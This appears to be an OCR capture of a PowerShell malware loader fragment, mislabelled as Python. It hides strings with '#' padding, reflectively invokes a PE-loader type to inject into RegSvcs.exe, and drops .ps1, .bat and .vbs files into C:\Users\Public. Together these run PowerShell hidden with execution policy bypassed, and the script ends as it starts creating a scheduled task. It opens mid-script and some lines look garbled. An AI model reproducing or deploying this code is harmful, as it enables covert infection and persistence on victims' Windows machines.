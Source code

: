 ```python

$NK = $Fu.GetType('N#ew#PE#2.P#E'-replace  '#', '')
$Ms = $NK.GetMethod('Execute')
$NA = 'C:\W#######indow############s\Mi####cr'-replace  '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe'-replace  '#', ''
$VA = @($AC, $NKbb)

$CM = 'In#################vo################ke'-replace '#', ''
$EY = $Ms.$CM($null, [object[]] $VA)


'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.ps1", $Content)


$Content = @'
@e%Conted%%Conted% off
set "ps=powershell.exe"
set "Contedms=-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass"
set "cmd=C:\Users\Public\Conted.ps1"
%ps% %Contedms% -Command "& '%cmd%'"
exit /b

'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)

$Content = @'
on error resume next
Function CreateWshShellObj()
    Dim objName
    objName = "WScript.Shell"
    Set CreateWshShellObj = CreateObject(objName)
End Function

Function GetFilePath()
    Dim filePath
    filePath = "C:\Users\Public\Conted.bat"
    GetFilePath = filePath
End Function

Function GetVisibilitySetting()
    Dim visibility
    visibility = 0
    GetVisibilitySetting = visibility
End Function

Function RunFile(wshShellObj, filePath, visibility)
    wshShellObj.Run filePath, visibility
End Function

Set wshShellObj = CreateWshShellObj()
filePath = GetFilePath()
visibility = GetVisibilitySetting()
Call RunFile(wshShellObj, filePath, visibility)

'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)


Sleep 2

$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
```